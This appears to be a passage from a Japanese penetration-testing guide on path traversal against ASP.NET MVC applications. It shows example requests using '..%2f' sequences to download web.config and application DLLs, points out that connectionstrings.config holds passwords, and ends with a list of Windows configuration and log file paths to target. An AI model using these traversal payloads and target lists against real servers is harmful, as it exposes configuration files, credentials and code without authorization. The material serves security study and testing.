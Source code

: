 * **EntityFramework** バージョン
* web ページ、クライアント検証、JavaScript の **AppSettings**
* 認証とランタイムのための **System.web** 構成
* **System.webServer** モジュールの設定
* **Microsoft.Owin**、**Newtonsoft.Json**、**System.Web.Mvc** などの多くのライブラリに対する **Runtime** アセンブリのバインディング

これらの設定は、**/bin/WebGrease.dll** のような特定のファイルがアプリケーションの /bin フォルダに存在することを示しています。

### **ルートディレクトリのファイル**

**/global.asax** や**/connectionstrings.config**（機密性の高いパスワードが含まれる）など、ルートディレクトリにあるファイルは、アプリケーションの構成と動作に不可欠です。

### **名前空間と Web.Config**

MVC アプリケーションでは、各ファイルで繰り返し宣言を避けるために、特定の名前空間用の追加の **web.config ファイル** も定義されます。別の **web.config** をダウンロードするリクエストの例が示されています。
```markup
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
Host: example-mvc-application.minded
```
### **DLLのダウンロード**

カスタム名前空間の言及は、/binディレクトリに存在する "**WebApplication1**" というDLLを示しています。これに続いて、**WebApplication1.dll** をダウンロードするリクエストが表示されます：
```markup
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
```
これは、/binディレクトリに**System.Web.Mvc.dll**や**System.Web.Optimization.dll**などの他の重要なDLLが存在している可能性を示しています。

DLLが**WebApplication1.Areas.Minded**という名前空間をインポートするシナリオでは、攻撃者は他のweb.configファイルが予測可能なパス（たとえば**/area-name/Views/**）に存在し、/binフォルダ内の他のDLLへの参照や特定の構成を含む可能性があることを推測するかもしれません。例えば、**/Minded/Views/web.config**へのリクエストは、**WebApplication1.AdditionalFeatures.dll**という別のDLLの存在を示す構成と名前空間を明らかにする可能性があります。

### 一般的なファイル

[こちら](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)から
```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
```